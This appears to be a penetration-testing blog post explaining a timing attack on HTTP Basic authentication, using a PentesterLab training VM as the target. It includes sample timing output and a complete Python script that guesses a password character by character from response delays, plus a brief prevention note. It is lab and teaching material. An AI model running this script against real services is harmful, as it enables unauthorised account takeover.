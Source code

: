 ```yaml
---
layout: post
title: Authentication Timing Attack
date: 2015-08-21
author: Simon
summary: Guess the password in basic web authentication.
categories: Web_Penetration
tags: 
 - Web penetration
 - Authentication Timing Attack
---
```


## Background 
Non-constant string comparison time can be a vulnerablity of Basic web authentication. If a web developer did not set up constant response time, attackers may get the password by comparing response time of requests. In this article, we will use [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II) authentication exercise 2 as an example. 

## Basics
![auth page](/img/2015-08-21-authentication-timing-attack.png){:width="500px"}
The process of authenticating is as the following:  
1. The browser sends a HTTP authentication request.     
2. The server compares the strings, and sends response.  

There are other types of auth requests than Basic, such as Digest and custom authentication. The username and password are concealed in the HTTP header. This is the header of Basic Authentication, which is the type of authentication in this example.
{% highlight http %}
GET /authentication/example2 HTTP/1.1
Host: http://192.168.56.101
Authorization: Basic dXNlcm5hbWU6cGFzc3dvcmQ=
{% endhighlight %}
`dXNlcm5hbWU6cGFzc3dvcmQ=` is the base64 code of `username:password`. The response will give you the status, which is whether you are authenticated or not, and some other content. Status code 200 is success, and 401 is fail. 


## How to
Suppose the actual password is `abcde`. Comparing `abcde` with `ab123` and `abc123`, the second one takes more time than the first one. With `ab123`, it compares 3 characters, and stops at the third letter. With `abc123`, it compares 4 letters, and stops at the fourth character. Based on this time difference, you could get the correct characters by comparing the response time of auth requests. 


## Details
Write a script to send authentication requests, and jot down the response time automatically. For example, this is a part of my ouput.
{% highlight shell%}
$ python ex2.py
 0 0 1.408078
 1 1 1.408148
 2 2 1.408747
...
23 n 1.408357
24 o 1.408269
25 p 1.609422
26 q 1.407573
27 r 1.406407
...
--------------------
Suggest:  25
Select one: 25
...
 1 p1 1.607937
 2 p2 1.608372
 3 p3 1.607752
 4 p4 1.810275
 5 p5 1.608626
 6 p6 1.609457
...
--------------------
Suggest:  4
Select one: 4
...
 0 p40 1.809672
 1 p41 1.810446
 2 p42 1.808867
...
{% endhighlight %}
The output `0 p40 1.809672` means `Index password response_time`. In the first loop, I send requests with one character as password. "p" took longer to respond, which indicated that p is likely to be contained in the password. With the correct bit confirmed, we can then test the next byte. It stops when it finds the correct password (getting response 200). 

### Script 
In this example, Python 2.7 was used to send requests and count time. `Requests: HTTP for Humans` is an easy-to-use library for HTTP requests. time.time() is used to measure the response time. Note that time.clock() and time.time() is different. clock() counts the processing time with respect to the CPU clock, while time() counts the wall clock time, considering other factors such as network latency.

{% highlight python %}
import requests
from requests.auth import HTTPBasicAuth
import time

dict = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l',
        'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z']
psw = ''
requests.get('http://192.168.56.101/authentication/example2', auth=HTTPBasicAuth('hacker', 'hacker'))
psw_found = False
while True:
    greatest = 0
    index = 0
    for i in range(len(dict)):
        current_psw = psw + dict[i]
        start = time.time()
        r = requests.get('http://192.168.56.101/authentication/example2', auth=('hacker', current_psw))
        taken = time.time() - start
        if greatest < taken:
            greatest = taken
            index = i
        print '{0:2d} {1:1s} {2:4f}'.format(i, psw + dict[i], taken)
        if r.status_code == 200:
            psw += dict[i]
            print 'password found: ', str(psw)
            psw_found = True
            break
    if psw_found:
        break
    print '--------------------'
    suggest = index
    print 'Suggest: ', suggest
    select = input('Select one: ')
    psw += dict[select]

{% endhighlight %}

### Prevention 
To prevent this vulnerability, either have a constant response time or use a more secure authentication technique.
